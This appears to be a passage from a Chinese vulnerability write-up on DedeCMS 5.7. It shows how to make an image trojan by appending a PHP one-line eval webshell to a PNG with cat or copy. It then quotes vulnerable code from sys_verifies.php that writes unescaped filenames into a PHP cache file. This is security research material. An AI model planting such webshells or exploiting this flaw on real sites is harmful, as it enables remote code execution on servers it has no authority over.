 

**制作图片马**。首先随便找一个图片`test.png`，制作一个一句话木马`cmd.php`

```php
<?php eval(@$_POST['cmd']); ?>
```

Mac/Linux下，将php加到png后面，或者将两个文件合成一个新的图片。命令如下

```
# 将php加到png后面
cat cmd.php >> test.png

# 将两个文件合成一个新的图片
cat test.png cmd.php >> 1.png
```

Windows下，合成新的图片命令如下

```
 copy test.png/b + cmd.php/a 1.png
```

## sys_verifies.php 写文件漏洞 

漏洞定位`/dedecms57/dede/sys_verifies.php`，这个文件用于系统文件的校验。在文件的最开始读取`/admin/ver.txt（20180109）`和`/admin/verifies.txt（20110216）`

```php
$tmpdir = substr(md5($cfg_cookie_encode),0,16);

if($action == ''){
    include(DEDEADMIN.'/templets/sys_verifies.htm');
    exit();
} else if ($action == 'getfiles'){ //下载文件 
    if(!isset($refiles)){
        ShowMsg("你没进行任何操作！","sys_verifies.php");
        exit();
    }
    $cacheFiles = DEDEDATA.'/modifytmp.inc';  // data/modifytmp.inc
    $fp = fopen($cacheFiles, 'w');
    fwrite($fp, '<'.'?php'."\r\n");
    fwrite($fp, '$tmpdir = "'.$tmpdir.'";'."\r\n");
    $dirs = array();
    $i = -1;
    $adminDir = preg_replace("#(.*)[\/\\\\]#", "", dirname(__FILE__));
    foreach($refiles as $filename){
        $filename = substr($filename,3,strlen($filename)-3); //
        if(preg_match("#^dede/#i", $filename)) 
        {
            $curdir = GetDirName( preg_replace("#^dede/#i", $adminDir.'/', $filename) );
        } else {
            $curdir = GetDirName($filename);
        }
        if( !isset($dirs[$curdir]) ) 
        {
            $dirs[$curdir] = TestIsFileDir($curdir);
        }
        $i++;
        fwrite($fp, '$files['.$i.'] = "'.$filename.'";'."\r\n");
    }
    fwrite($fp, '$fileConut = '.$i.';'."\r\n");
    fwrite($fp, '?'.'>');
    fclose($fp);
        
    $doneStr = "<iframe name='stafrm' src='sys_verifies.php?action=down&curfile=0' frameborder='0' id='stafrm' width='100%' height='100%'></iframe>\r\n"; // 包含sys_verifies.php，执行down方法
```